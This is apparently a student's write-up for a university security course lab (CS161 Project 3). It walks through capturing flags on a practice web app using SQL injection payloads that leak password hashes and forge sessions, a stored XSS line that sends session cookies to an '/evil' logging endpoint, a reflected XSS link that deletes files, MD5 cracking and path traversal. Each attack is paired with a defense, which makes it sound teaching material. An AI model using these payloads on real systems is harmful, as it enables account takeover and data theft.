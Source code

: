 ## CS161 Project 3 Write-up
### Flag 3: Steal the password hash for user shomil.
#### Exploit location
Insert the exploit into search box of ```https://box.cs161.org/site/list```

#### Exploit
In the backend, when we search for specific files under list files page it runs the following query
```sql
fileName := r.URL.Query()["fileName"][0]
query := fmt.Sprintf("SELECT filename FROM files WHERE filename = '%s'", fileName)
```
We noticed that the above query is vulnerable to SQL Injection and so we insert our exploit
```SQL
' UNION SELECT md5_hash FROM users WHERE username='shomil' --
```
#### Defense: Prepared Statements
```SQL
fileName := r.URL.Query()["fileName"][0]
db := getDB()
row, err := db.QueryRow("SELECT filename FROM files WHERE filename = ?", fileName)
```

### Flag 4: Gain access to nicholas’s account.
#### Exploit location
Insert the exploit into ```session_token``` cookie of application tab of console.
#### Exploit
Everytime we load the page, if the ```session_token``` cookie exists then the server selects and displays the corresponding username with the following query:
```SQL
query := fmt.Sprintf("SELECT username FROM sessions WHERE token = '%s'", token)
```
We noticed that the above query is vulnerable to SQL Injection and so we insert our exploit here
```SQL
' UNION SELECT 'nicholas' FROM sessions --
```
#### Defense: Prepared Statements
```SQL
db := getDB()
row, err := db.QueryRow("SELECT username FROM sessions WHERE token = ?", token)
```

### Flag 5: Leak cs161’s session cookie by pushing it onto the /evil/logs page.
#### Exploit location
Insert the exploit in ```New Filename``` box when renaming an existing file.
#### Exploit
This task is an example of Stored XSS which requires our malicious javascript to be stored in the server. We were able to do this by injecting our exploit as a filename when renaming an existing file. Then, we share that file with cs161 and when they load the list file page, their ```session_token``` is leaked.
```js
<script>fetch('/evil/report?message='+document.cookie)</script>
```
#### Defense: HTML sanitization
With html sanitization, our code would be saved as follows and not be interpreted as javascript.
```js
&lt;script&gt;fetch('/evil/report?message='+document.cookie)&lt;/script&gt;!
```

### Flag 6: Create a link that deletes user’s files. Once you have figured it out, execute the attack on yourself to earn the flag!
### Exploit location
Insert the exploit into search box of ```https://box.cs161.org/site/list```

#### Exploit
This task is an example of Reflected XSS which requires us to build a malicous URL which is reflected in the repsonse. We were able to do this by injecting our javascript in the search box of the file list page.

```
https://box.cs161.org/site/search?term=<script>fetch("https://box.cs161.org/site/deleteFiles",{method:"POST"})</script>
```

#### Defense: CSP
Content Security Policy would disallow inline javascript which prevents this XSS attack since our javascript does not come a trusted domain.

### Flag 7: Gain access to the admin panel.

#### Exploit location
Insert the exploit into search box of ```https://box.cs161.org/site/list```

#### Exploit
We used the same vulnerable query from Flag 3 to learn the username of the admin's regular account
```sql
' UNION SELECT username FROM users --
```

Once the ```username``` was learned, we leaked the ```md5_hash``` of the admin once again using the same vulnerable query
```sql
' UNION SELECT md5_hash FROM users WHERE username='uboxadmin' --
```

Beacuse the md5 hash has been broken, we found an online reverse md5 hash which got us the passowrd to the admin's regular account.
Many people reuse passwords and the admin was no exception.

#### Defense: Prepared Statements
Same defesne from FLAG 3 would have stopped this exploit.
```SQL
fileName := r.URL.Query()["fileName"][0]
db := getDB()
row, err := db.QueryRow("SELECT filename FROM files WHERE filename = ?", fileName)
```

### Flag 8: Gain access to the secrets stored within config.yml.
#### Exploit location
Insert the exploit in ```New Filename``` box when renaming an existing file.

#### Exploit
The ```config.yml``` file was in a folder that we did not have access to. Therefore, we had to carry out a path traversal attack.
This invloved taking adavantage of ../ to go back a directory from the one we had access to. We renamed one of our files as follows:
```
../config/config.yml
```
This gave us access to ```config.yml```

#### Defense: Input Sanitization
A simple defense would be to restrict the use of ```../``` character when renaming a file.